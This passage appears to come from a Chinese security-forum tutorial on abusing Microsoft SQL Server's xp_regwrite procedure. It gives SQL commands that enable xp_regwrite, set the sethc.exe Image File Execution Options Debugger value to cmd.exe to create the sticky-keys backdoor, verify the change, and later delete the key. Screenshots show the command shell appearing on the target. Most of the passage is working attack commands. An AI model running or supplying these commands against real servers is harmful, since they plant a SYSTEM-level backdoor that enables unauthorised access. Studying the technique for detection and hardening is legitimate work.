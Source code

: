 ##### Ⅱ xp\_regwrite开启与关闭

```sql
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_regwrite',1
RECONFIGURE
```

##### Ⅲ 利用regwrite函数修改组注册表进行劫持

```sql
EXEC master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'
```

![2s4ykR.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7b79dd8c8109e8d17f61c89bb81b4419644a1b3c.png)

##### Ⅳ 查看是否修改成功文件

```sql
exec master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','Debugger'
```

![2s4r79.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6d447d2f92d8da3e9d23c829504d307387c095b1.png)

显示已修改为`cmd.exe`

在目标主机上查看，结果一致

![2s46t1.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-69f50d7e1b7cd8987e16714dd2c4c68f5ec38155.png)

##### Ⅴ 验证是否成功

连按5次粘滞键，弹出cmd框

![2s4W6O.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1f584575931575090ba2eb99bfaa950491971885.png)

**拓展：**

上面对只是对粘滞键进行修改，类似的，可以在注册表中进行其他操作

- **删除指定注册表键值对**

删除粘滞键的键值

```php
xp_regdeletekey 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe'
```

![2s44ne.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3d9d823b68e50a83a6424d7aa8a49990bc07cb8f.png)

到目标主机上查看，发现sethc.exe在注册表中的值已删除

![2s4fXD.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e751fefd30e7e632eb216e9282b3574423d58406.png)
